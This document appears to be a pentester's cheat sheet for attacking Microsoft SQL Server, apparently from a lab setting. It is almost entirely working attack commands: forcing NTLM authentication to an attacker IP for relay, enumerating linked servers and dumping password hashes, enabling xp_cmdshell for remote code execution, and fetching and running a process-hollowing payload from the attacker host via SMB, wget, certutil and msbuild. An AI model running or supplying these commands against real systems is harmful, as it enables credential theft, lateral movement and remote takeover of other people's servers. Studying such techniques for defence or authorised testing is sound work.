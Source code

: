     #NTLM disclosure/relay:
    EXEC master..xp_dirtree "\\192.168.49.121\test"


    //Linked Server Enumeration:
        EXEC sp_linkedservers;
        select v from openquery("SQL07", 'select @@version as v');
        //or: select * from openquery("SQL05", 'select @@version');
        select v from openquery("SQL03", 'select system_user as v');
        select v from openquery("SQL03", 'select user_name() as v');
        select v from openquery("SQL03", 'select IS_SRVROLEMEMBER(''sysadmin'') as v');
        select * from openquery("SQL03", 'select name FROM master..sysdatabases');
        select * from openquery("SQL03", 'SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = ''IMPERSONATE''');
        select * from openquery("SQL03", 'SELECT STRING_AGG(d.name, '', '') FROM sys.server_principals r INNER JOIN sys.server_role_members m ON r.principal_id = m.role_principal_id INNER JOIN sys.server_principals p ON p.principal_id = m.member_principal_id INNER JOIN sys.databases d ON suser_sname(d.owner_sid) = p.name WHERE is_trustworthy_on = 1');
        select * from openquery("SQL03", 'EXEC sp_linkedservers');
        select * from openquery("SQL03", 'SELECT * FROM sys.servers');
        select * from openquery("SQL03", 'select sp.name as login, sp.type_desc as login_type, sl.password_hash, sp.create_date, sp.modify_date, case when sp.is_disabled = 1 then ''Disabled'' else ''Enabled'' end as status from sys.server_principals sp left join sys.sql_logins sl on sp.principal_id = sl.principal_id where sp.type not in (''G'', ''R'') order by sp.name');
    //Linked Server NTLM:
        sudo responder -I tun0
        select * from openquery("SQL03", 'EXEC master..xp_dirtree "\\192.168.49.121\test"');
    //RCE on Linked Server:
        EXEC ('sp_configure ''show advanced options'', 1; reconfigure;') AT "SQL03";
        EXEC ('sp_configure ''xp_cmdshell'', 1; reconfigure;') AT "SQL03";
        EXEC ('xp_cmdshell whoami') AT "SQL03";
        //Shell Method 1:
            EXEC ('xp_cmdshell ''reg add HKLM\SYSTEM\CurrentControlSet\Services\LanmanWorkstation\Parameters /t REG_DWORD /v AllowInsecureGuestAuth /d 1 /f && \\192.168.49.121\visualstudio\Hollow\Hollow\bin\x64\Release\Hollow.exe''') AT "SQL03";
        //Shell Method 2:   
            EXEC ('xp_cmdshell ''powershell -c wget http://192.168.49.121/file4.txt -outfile c:\windows\tasks\enc2.txt''') AT "SQL03";
            EXEC ('xp_cmdshell ''certutil -decode c:\windows\tasks\enc2.txt c:\windows\tasks\Hollow.csproj''') AT "SQL03";
            EXEC ('xp_cmdshell ''C:\Windows\Microsoft.NET\Framework64\v4.0.30319\msbuild.exe c:\Windows\Tasks\Hollow.csproj''') AT "SQL03";   

### Enumeration & Exploitation

    //Enumeration:
        //port 1433 by default
        //query DC for all registered SPNs related to MS SQL
            setspn -T corp1 -Q MSSQLSvc/*
            . .\GetUserSPNs.ps1     //another way
            //also note the service account it's running under
            